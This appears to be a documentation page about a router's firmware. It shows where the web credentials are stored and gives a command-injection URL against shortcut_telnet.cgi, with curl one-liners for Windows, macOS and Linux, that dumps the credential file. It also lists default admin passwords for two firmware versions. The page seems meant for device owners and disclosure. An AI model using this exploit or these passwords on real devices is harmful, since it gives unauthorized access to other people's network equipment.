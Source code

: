 The default web credentials can be found in `/ptrom/ptconf/param_ct.xml`. Modifications from the web UI are stored in
`/ptrom/ptconf/usrconfig_conf` as base64 encoded strings.

!!! warning
    Passwords have a maximum length of 16 characters which are not restricted by the web UI.

??? bug "Exploit to disclose the default web credentials"
    
    To dump the web credentials from `/ptrom/ptconf/param_ct.xml`, navigate to:

    <http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml>

    Alternatively, run the following command to download `param_ct.xml` to a temporary directory.

    === ":fontawesome-brands-windows: Windows"

        ``` sh
        dir %Temp% && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":material-apple: macOS"

        !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

        ``` sh
        brew install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":material-linux: Linux"

        !!! note "The following commands assume a Debian-based distribution, such as [Ubuntu](https://ubuntu.com/)"

        ``` sh
        sudo apt-get install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

=== "&lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | QsCg@7249#5281 |
    | user     | user1234       |

=== "v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | BR#22729%635e9 |
    | user     | user1234       |
